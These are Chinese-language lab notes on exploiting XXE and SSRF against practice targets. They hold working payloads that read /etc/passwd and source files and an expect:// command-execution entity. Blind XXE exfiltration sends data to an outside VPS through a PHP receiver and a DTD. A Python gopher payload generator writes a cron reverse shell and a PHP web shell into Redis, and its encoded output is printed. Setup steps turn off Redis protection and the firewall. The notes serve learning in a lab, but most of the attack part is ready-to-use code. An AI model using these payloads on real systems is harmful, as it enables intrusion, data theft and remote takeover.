









# XXE&SSRF

## XXE

### 漏洞复现

#### XXE读文件

1. 打开xxe_Lab for PHP的靶场，抓包。​​

2. 判断是否有XXE注入漏洞

    1、判定是否使用了xml进行数据传递

    标签、Accept: application/xml, text/xml

    2、确定是否有回显位置，或无回显，下图有回显。​

    ​

3. 写入payload。

    ```python
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY[
    <!ENTITY a SYSTEM "file:///etc/passwd">
    ]>
    ```

    ​​
4. 另一种情况是外部参数实体。

    ```python
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ```

5. http服务

    ```bash
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ```

    ​​

    ```python
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY[
    <!ENTITY % a SYSTEM "http://47.113.187.190:90/wai.dtd">
    %a;
    ]>
    <user><username>
    &xxe;
    </username><password>222</password></user>
    ```
6. ​​

#### XXE判断端口开放

通过回显长度或页面特征判断

```python

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY[
<!ENTITY a SYSTEM "http://47.113.187.190:80">
]>
<user><username>
&a;
</username><password>222</password></user>
```

#### 命令执行

前提：需要php环境安装了expect扩展

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY[
<!ENTITY s SYSTEM "expect://whoami">        #空格可使用${IFS}替换
]>
<user><username>&s;</username><password>admin2</password></user>

expect://ls${IFS}-al        #举例
```

#### 无回显XXE

​​

1. 先在第三方VPS创建两个文件，getshell.php、shell.dtd,,,,,当请求发送后被攻击端会访问这两个文件，并将文件内容返回。

```python
#getshell.php

<?php
file_put_contents('shellout.txt',$_GET['get']);
?>
```

```python
#shell.dtd

<!ENTITY % a "<!ENTITY &#37; send SYSTEM 'http://ftp6610290.host123.sanfengyun.cn/getshell.php?get=%file;'>">
%a;
```

2. 浏览器访问这两个文件看能不能访问  200​

    ​​

3. payload  web请求抓包

    ​​

    ```python
    <!DOCTYPE ANY[
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
    <!ENTITY % s SYSTEM "http://ftp6610290.host123.sanfengyun.cn/shell.dtd">
    %s;
    %send;
    ]>
    <user><username>
    &s;
    </username><password>222</password></user>

    ```

5. 第三方服务器查看返回来的文件内容，需要解码。

    ​​
6. 坑：后面shellout.txt文件总是写不出来，需要将getshell.php的文件执行权限打开。777   ........😶(ˉ▽ˉ；)...

​​

## 在Kali安装Redis

```php
wget http://download.redis.io/redis-stable.tar.gz
#解压或两次解压
tar -zxf redis-stable.tar.gz
# 进入到 redis-stable 目录
cd redis-stable
# 编译
make
cd src
#修改配置
vim redis.conf
bind 127.0.0.1注释，修改为：bind 0.0.0.0
protected-mode yes修改为 no
启动/重载配置/重启
ps -ef | grep redis    #ip为*才对
#检查防火墙
systemctl disable firewalld
cd src
./redis-server   
```

​​

​​

## 使用centos7-redis

1. 虚拟机启动CentOS7x64.ovf
2. arp-scan -l 发现ip
3. 连接

    ​​

1、熟悉Xml语句怎么构造，如何使用协议利用XXE漏洞。

‍

#### <span data-type="text" style="color: var(--b3-font-color9);">皮卡丘靶场SSRF靶场用gopherus直接打redis</span>

### 实验环境

1. 攻击者主机        ip：172.20.10.2
2. 内网有SSRF漏洞的主机（pikachu主机）     ip：172.20.10.3
3. 内网Redis服务器（kali/centos7-redis）    ip：172.20.10.4

​​

### 实验步骤

1. 拼接www.baidu.com发现其可以正常访问百度，所以怀疑此处出现SSRF漏洞​​
2. dict协议又称在线网络字典协议。通过 dict协议，可以远程访问一个指定的 TCP 端口，并且会返回端口所提供的服务的部分组件信息当目标端口开放（有服务信息显示，但会报错）可以看出目标主机的`6379`​端口是开放的。

    ​​
3. 由于对端是`6379`​端口也就是`redis`​服务的端口，向该端口传输的数据必须是`redis`​规定的格式，需要查找`redis`​报文格式的文档构造其报文，但那样过于繁琐，所以直接在本地另外一台服务器上搭建`redis`​服务，通过在本地连接这台`redis`​服务器，并向其发送攻击时所要发送的`redis`​命令从而获取其流量报文，最终再配合`Gopher`​协议完成传输即可。
4. 使用python构建paylod，需要再URL编码一次

    ```python
    import urllib.parse
    protocol = "gopher://"
    ip = "172.20.10.4"   #redis ip
    port = "6379"   #redis port
    reverse_ip = "172.20.10.5"   #反弹的主机
    reverse_port = "8888"   #监听的端口
    cron = "\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/{}/{} 0>&1\n\n\n\n".format(reverse_ip, reverse_port)
    filename = "root"
    path = "/var/spool/cron"
    passwd = ""

    cmd = [
        "flushall",
        "set 1 {}".format(cron.replace(" ", "${IFS}")),
        "config set dir {}".format(path),
        "config set dbfilename {}".format(filename),
        "save"
    ]

    if passwd:
        cmd.insert(0, "AUTH {}".format(passwd))

    payload = protocol + ip + ":" + port + "/_"


    def redis_format(arr):
        CRLF = "\r\n"
        redis_arr = arr.split(" ")
        cmd = ""
        cmd += "*" + str(len(redis_arr))
        for x in redis_arr:
            cmd += CRLF + "$" + str(len(x.replace("${IFS}", " "))) + CRLF + x.replace("${IFS}", " ")
        cmd += CRLF
        return cmd


    if __name__ == "__main__":
        for x in cmd:
            payload += urllib.parse.quote(redis_format(x))
        print(payload)

    ```

    ```jsp
    gopher://172.20.10.4:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2461%0D%0A%0A%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20/dev/tcp/172.20.10.5/8888%200%3E%261%0A%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/var/spool/cron%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
    gopher%3a%2f%2f172.20.10.4%3a6379%2f_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252461%250D%250A%250A%250A%250A%250A%252A%2f1%2520%252A%2520%252A%2520%252A%2520%252A%2520bash%2520-i%2520%253E%2526%2520%2fdev%2ftcp%2f172.20.10.5%2f8888%25200%253E%25261%250A%250A%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252415%250D%250A%2fvar%2fspool%2fcron%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25244%250D%250Aroot%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A

    ```
5. 主机监听172.20.10.5

    ​​
6. 拿到了shell，另一种方法是通过gopher直接写shell到redis的web目录，<span data-type="text" style="color: var(--b3-font-color9);">前提是redis主机有web服务</span>。

    ​​
7. 根据前面主机监听修改redis服务器密码，方便查看shell有没有上传成功。

    ​​
8.  使用gopherus.py工具生成gopher的payload。

    ​​
9. 拿着上方payload进行二次URL编码

    ```python
    gopher%3a%2f%2f172.20.10.4%3a6379%2f_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252421%250D%250A%250A%250A%253C%253F%253D%2560%2524_GET%255Bcmd%255D%2560%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2fvar%2fwww%2fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
    ```
10. 拿着payload到pikachu靶场SSRF使用。

     ​​
11. 到redis主机web目录查看有没有写成功（真实环境看不了）

     ​
12. 拿到shell，但不知为何Ant连接不了

     ​​

## redis的4中常见攻击方式??★

‍

‍
